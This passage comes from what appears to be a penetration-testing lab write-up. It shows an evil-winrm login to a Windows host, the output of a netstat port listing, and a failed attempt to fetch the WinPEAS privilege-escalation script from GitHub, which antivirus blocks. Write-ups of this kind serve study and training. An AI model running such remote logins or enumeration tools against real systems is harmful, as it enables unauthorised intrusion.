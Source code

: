 There was something interesting here. 
22: SSH
135/445 : SMB
3389: remote desktop
5985/5986 : WINRM


```bash
$ evil-winrm -i 172.191.90.57 -u devuser -p '*****' 
*Evil-WinRM* PS C:\Users\devuser\Documents> netstat -ano

...snip...

  TCP    0.0.0.0:22             0.0.0.0:0              LISTENING       2928                                                                                  
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       960                                                                                   
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4                                                                                     
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       428                                                                                   
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4      
  TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4                                                                                     
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4      
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       568    
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1180   
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1732   
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2496                                                                                  
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       2724   
  TCP    0.0.0.0:49672          0.0.0.0:0              LISTENING       704                                                                                   
  TCP    0.0.0.0:49676          0.0.0.0:0              LISTENING       724 

...snip...

```

```bash
PS C:\Users\devuser>  
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\devuser>  

```


## 5.3 Enumerate Windows

I thought I could score an easy win with WinPEAS, but I was WRONG!

```powershell
 wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1 -o winpeas.ps1
At C:\Users\devuser\winpeas.ps1:1 char:1       

+ <#                                                             
+ ~~                                                                          
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParseException              
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent


```
